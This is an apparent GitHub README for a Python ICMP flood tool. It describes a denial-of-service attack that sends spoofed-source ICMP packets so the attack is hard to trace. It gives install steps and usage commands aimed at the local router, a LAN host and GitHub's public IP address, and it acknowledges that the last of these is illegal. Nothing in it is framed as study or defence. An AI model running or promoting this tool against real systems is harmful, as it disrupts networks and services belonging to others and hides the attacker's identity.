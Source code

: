 # ICMP Flood

This Python script is designed to execute an ICMP Flood attack, a type of Denial-of-Service (DoS) attack that inundates a specified target IP address with numerous ICMP packets. The script employs IP spoofing to mask the source IP address of the packets, making it more challenging to trace the attack back to its origin. It requires root privileges to run and can target any specified IP address, defaulting to the local gateway if no arguments are provided.

### install

```bash
git clone https://github.com/savasick/icmpflood.git
cd icmpflood
python3 -m venv venv
source venv/bin/activate
pip3 install -r requirements.txt
```

### usage

send to router-IP (Can disrupt LAN network and make it unavailable)
```bash
sudo python3 icmpflood.py
```

send to 192.168.5.110-IP
```bash
sudo python icmpflood.py 192.168.5.110
```

send to GitHub's IP (not recommended and illegal):
```bash
sudo python icmpflood.py 140.82.121.3
```